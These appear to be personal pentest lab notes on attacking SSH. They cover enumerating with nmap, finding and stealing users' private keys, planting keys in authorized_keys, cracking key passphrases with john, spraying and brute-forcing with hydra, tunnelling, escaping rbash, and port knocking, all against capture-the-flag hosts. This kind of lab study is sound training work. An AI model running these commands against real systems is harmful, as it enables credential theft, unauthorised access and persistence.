 nmap scripts
```
nmap -p 22 --script=ssh-hostkey,ssh-auth-methods,sshv1 <target-ip>
```

different types:
RSA
- stored on linux at /home/anita/.ssh/id_rsa
-  stored on windows at C:\Users\<Username>\.ssh\id_rsa
DSA
- stored on linux at /home/anita/.ssh/id_dsa
- stored on windows at C:\Users\<Username>\.ssh\id_dsa
ecdsa
- stored on linux at /home/anita/.ssh/id_ecdsa
- stored on windows at C:\Users\<Username>\.ssh\id_ecdsa
ed25519
- stored on linux at /home/anita/.ssh/id_ed25519
- stored on windows at C:\Users\<Username>\.ssh\id_ed25519

if LFI, check `/etc/ssh/sshd_config` to see ssh key locations

.ssh folder in user's home directory
- make sure id_rsa.pub and authorized_keys are identical
```
md5sum id_rsa.pub
```
```
md5sum authorized_keys
```
- if hash is identical, transfer id_rsa file (not the .pub) to home machine and ssh in without password

Generate ssh key pair
```
ssh-keygen -t ed25519 -f ./id_ed25519
```
- key will be saved as `id_ed25519` (private key) and `id_ed25519.pub` (public key) in the current directory (`./`)
- upload `id_ed25519.pub` to target machine I want to SSH into
	- or just copy the contents to the authorized_keys file on remote machine:
```
cat id_ed25519.pub
```
- on local machine
on remote machine in the /home/user directory:
```
mkdir .ssh && cd .ssh
```
```
echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIEqwSCwB7vK26CckpfDL1D0+/z6sf42jocBMLUsbca+m daniel@daniel" > authorized_keys
```
- run command on my kali machine:
```
ssh -i id_ed25519 root@pilgrimage.htb
```

once you get private key:
- make id_ecdrsa
	- set correct permissions
		- `chmod 600 /path/to/id_ecdsa`
- `ssh2john id_ecdsa > anita.hash`
- `john --wordlist=/usr/share/wordlists/rockyou.txt anita.hash`
	- fireball
```
ssh -i ./id_ecdsa anita@192.168.164.245 -p 2222
```

Generating rsa ssh keys in /var/www if only have www-data shell on target machine:
```
cd /var/www
```
```
mkdir .ssh
```
```
ssh-keygen -q -t rsa -N '' -C 'pam'
```
```
cp .ssh/id_rsa.pub .ssh/authorized_keys
```
```
chmod 600 .ssh/authorized_keys 
```
- then, copy private key to local host machine
```
ssh -i id_rsa www-date@10.10.10.6
```
- run from kali

spray
```
nxc ssh ip -u user -p pass
```

bruteforce
```
hydra -l offsec -P /usr/share/wordlists/rockyou.txt ssh://192.168.203.122 -V
```

ssh tunneling aka port forwarding:
```
ssh -L [local_port]:127.0.0.1:[remote_port] [username]@[remote_host]
```
- if port forward is blocked `channel 3: open failed: administratively prohibited: open failed` use proxychains instead:
	- add `socks4  127.0.0.1 8081` to `/etc/proxychains4.conf` in kali
	- `ssh charix@10.129.1.254 -D 8081` run from kali
	- `proxychains vncviewer 127.0.0.1:5901 -passwd secret` run from kali
		- example using vncviewer and password file


Escape rbash shell with `-t bash`
```
ssh mindy@10.129.226.162 -t bash
```
- `-t bash` instructs ssh to use bash as shell instead of whatever is default assigned in /etc/passwd
- if regular ssh command pops you into a limited -rbash shell, use this

#### Port Knocking
`ps -auxww` will show `/usr/sbin/knockd` running
- `cat /etc/knockd.conf` and will see openSSH sequence = 571, 290, 911
	- Put together a script to hit those 3 ports within 5 seconds to open SSH on the host and then connect in:
```
for i in 571 290 911; do
nmap -Pn --host-timeout 100 --max-retries 0 -p $i 10.129.222.16 >/dev/null
done; ssh -i id_rsa amrois@10.129.222.16
```
- might take multiple tries to run this one-liner from bash on kali host